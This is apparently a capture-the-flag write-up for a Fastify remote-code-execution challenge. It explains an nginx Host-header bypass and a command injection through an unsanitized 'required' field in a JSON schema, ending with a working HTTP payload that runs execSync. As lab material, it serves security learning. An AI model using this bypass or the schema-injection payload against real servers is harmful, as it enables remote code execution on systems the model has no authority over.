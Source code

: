 # Overview
I didn't manage to get RCE, because I inferred the code to be sanitized properly based on little fuzzing, and that should not happen again.

This is a RCE challenge of a fastify instance, the problem is that the the function code compiler didn't sanitize everything in the schema, only keys of "properties".

There are two challenges here, the first is to bypass nginx config, and the other part is exploit command injection with schema supplied to fastify.

---
# Solution
The first nginx challenge has set "server_name" and read the http header "Host: x" at the same time.

The nginx config:
```
server {
    listen 80 default_server;
    return 404;
}
server {
    server_name *.saas;
    if ($http_host != "easy++++++") { return 403 ;}
    location ~ {
      proxy_pass http://backend:3000;
    }
}
```

Usually the virtual host's name will match the one in "Host" header, but according to Nginx official documentation, the value of `$host` variable will be retrieved from:
1. The hostname in request line
2. "Host" header
3. The "server_name" eventually matched the request.

So we can actually send a request like this to bypass the config:
```
GET http://whatever.saas/flag.php
Host: easy++++++

...
```

---

The second part is where I failed.
According to this part of the source code:
```javascript
fastify.post('/register', {}, async (req, resp) => {
  // can only access from internal.
  const nid = uuid()
  const schema = Object.assign({}, defaultSchema, req.body) // <-- this line here
  console.log(schema)
  customValidators[nid] = validatorFactory({schema}, {mode: 'debug'})
  console.log(customValidators[nid].toString())

  return {route: `/whowilldothis/${nid}`}
})
```

The `req.body` is a object parsed by fastify, and it's being merged into a new object.
I was expecting to exploit prototype pollution here, but fastify seems to be using a default blacklist that blocked `__proto__` and  `prototype`.

And then I noticed the object merging with our data is being used as schema, which will be used to compiled as a validator function.

I knew this is really possible to be the answer, but I didn't really look into the source code of fastify, and that's my biggest mistake.

I built a debug site and try to print out how the compiled function looks like, it is being compiled based on a format called "JSON Schema". It will enumerate the schema and construct a string based on that and put the string into `Function()` to get the validator.

I tried to command injection in the keys of "properties", but the keys are sanitized.
Then, I tried "$id" as well, but the compiled code didn't seem to change.

After the CTF ended, I read other's write-ups, and it turned out I was being very unfortunate.
The keys under "properties" are the only keys that get sanitized, and "$id" need two other keys existing to be put into the code.

So I tracked the source code of fastify this time and found out the "required" array will be put into the compiled function without sanitization, and we can get our RCE there.

My solution:
```
POST /register HTTP/1.1
Host: 192.168.65.1:3000
User-Agent: curl/7.87.0
Accept: */*
Content-Type: application/json
Content-Length: 188
Connection: close

{"properties": {},
"$id": "a",
"required":["the old one']) console.log(global.process.mainModule.require(\"child_process\").execSync(\"calc.exe\"))//"] }
```